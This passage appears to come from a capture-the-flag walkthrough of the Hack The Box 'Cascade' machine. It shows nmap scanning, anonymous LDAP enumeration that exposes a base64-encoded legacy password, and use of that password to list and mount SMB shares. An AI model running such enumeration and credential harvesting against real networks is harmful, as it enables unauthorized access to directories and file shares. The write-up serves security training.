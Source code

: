 ### UDP

```bash
luc@kali:~/HTB/Cascade$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.182
```

|Port|Service
|---|---|---|
53/udp|domain?
123/udp|ntp?

## LDAP

```bash
luc@kali:~/HTB/Cascade$ ldapsearch -x -h 10.10.10.182 -s base
...
namingContexts: DC=cascade,DC=local
...
luc@kali:~/HTB/Cascade$ ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local'
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
...
sAMAccountName: r.thompson
...
cascadeLegacyPwd: clk0bjVldmE=
...
luc@kali:~/HTB/Cascade$ echo -n 'clk0bjVldmE=' | base64 -d;echo
rY4n5eva
```

We can find a password for the `r.thompson` account.

## SMB

```bash
luc@kali:~/HTB/Cascade$ smbmap -u r.thompson -p rY4n5eva -H 10.10.10.182
[+] IP: 10.10.10.182:445        Name: 10.10.10.182
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```

We have access to a `Data` share.

```bash
luc@kali:~/HTB/Cascade/$ mkdir smb
luc@kali:~/HTB/Cascade/$ cd smb
luc@kali:~/HTB/Cascade/smb$ mkdir data
luc@kali:~/HTB/Cascade/smb$ sudo mount //10.10.10.182/data data -o username=r.thompson
Password for r.thompson@//10.10.10.182/data:  rY4n5eva
luc@kali:~/HTB/Cascade/smb$ cd data/
luc@kali:~/HTB/Cascade/smb/data$ ls -R
.:
Contractors  Finance  IT  Production  Temps

./Contractors:
ls: reading directory './Contractors': Permission denied

```